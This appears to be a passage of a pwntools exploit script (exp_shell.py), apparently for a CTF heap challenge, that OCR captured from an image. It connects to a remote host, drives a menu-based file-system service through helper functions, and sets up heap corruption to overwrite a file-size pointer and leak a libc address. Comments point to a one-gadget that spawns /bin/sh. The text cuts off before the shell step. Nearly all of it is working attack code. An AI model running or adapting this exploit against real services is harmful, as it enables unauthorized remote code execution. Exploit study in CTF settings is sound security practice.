 ```python exp_shell.py
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def create_file(name, size):
    r.sendlineafter(":", "4")
    r.sendafter(":", name)
    r.sendlineafter(":", str(size))

def change_dir(name):
    r.sendlineafter(":", "2")
    r.sendafter(":", name)

def remove(name):
    r.sendlineafter(":", "5")
    r.sendafter(":", name)

def make_dir(name):
    r.sendlineafter(":", "3")
    r.sendafter(":", name)

def ls():
    r.sendlineafter(":", "1")

def cal():
    r.sendlineafter(":", "6")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    # overwrite &file->fize_size (address of file_size)
    # use cal() to let file->name point to main_arena+88

    make_dir("AAAA")
    make_dir("BBBB")
    make_dir("CCCC")
    create_file("F"*24+p8(0x10), 64)
    remove("BBBB\n")
    remove("CCCC\n")
    cal()
    ls()

    # leak libc address
    ######################## one gadget
    # .text:000000000004525A                 mov     rax, cs:environ_ptr_0
    # .text:0000000000045261                 lea     rdi, aBinSh     ; "/bin/sh"
    # .text:0000000000045268                 lea     rsi, [rsp+188h+var_158]
    # .text:000000000004526D                 mov     cs:dword_3C54A0, 0
    # .text:0000000000045277                 mov     cs:dword_3C54A4, 0
```